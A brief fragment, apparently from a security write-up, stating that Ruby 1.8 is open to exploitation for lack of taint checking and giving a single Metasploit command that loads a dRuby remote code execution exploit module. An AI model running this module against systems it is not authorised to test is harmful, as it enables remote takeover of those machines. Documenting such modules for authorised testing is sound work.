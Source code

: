 Because of a lack of taint checking, Ruby version 1.8 is vulnerable to exploitation.
## Exploit
	msf > use exploit/linux/misc/drb_remote_codeexec